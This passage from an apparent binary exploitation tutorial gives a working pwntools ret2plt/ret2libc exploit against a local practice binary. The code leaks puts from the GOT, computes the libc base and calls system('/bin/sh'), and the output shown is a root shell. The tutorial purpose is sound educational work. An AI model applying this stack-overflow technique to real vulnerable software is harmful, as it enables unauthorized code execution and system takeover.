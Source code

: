 We got offset `0000000000058750`.

Now here is final exploit, I modified few things because above exploit was had few issues but logic is still same. The issue in my previous code came from using `sendlineafter(payload)` instead of properly waiting for the input prompt with `sendlineafter(b'Enter Data -', payload)`. Because of this, I ended up sending the payload before the binary was ready to read input, which led to a segmentation fault. I also tried to unpack the leaked address directly using `unpack(leak, 'all')` without checking if the leak was clean or even valid. Sometimes the output had garbage or was empty, which caused wrong libc base calculations like getting `0x0` or other invalid addresses. Once I fixed the prompt handling and made sure the leak was processed properly, the exploit started working exactly as intended.

```python
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF('./ret2plt')
io = process()

# ret2plt
pop_rdi = 0x00000000004012c3
puts = elf.sym.puts

payload = cyclic(40) + pack(pop_rdi) + pack(elf.got.puts) + pack(puts) + pack(elf.sym.main)

# You must give prompt if binary expects input (or it races)
io.sendlineafter(b'Enter Data -', payload)

# recv leak
io.recvline()  # skip first line
leak = io.recvline().strip().ljust(8, b'\x00')  # pad to 8 bytes
leak_int = unpack(leak, 'all')
libc_base = leak_int - 0x0000000000087be0  

# ret2libc
bin_sh_addr = libc_base + 0x1cb42f
ret = 0x000000000040101a
system = libc_base + 0x0000000000058750

payload = cyclic(40) + pack(pop_rdi) + pack(bin_sh_addr) + pack(ret) + pack(system)
io.sendlineafter(b'Enter Data -', payload)

io.interactive()
```

```bash
❯ python3 main.py
[*] '/home/at0m/ret2plt'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/at0m/ret2plt': pid 13452
[*] Switching to interactive mode
 
$ id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),105(lpadmin),125(sambashare),128(docker),1000(at0m)
```
## 0xA - Ret2Syscall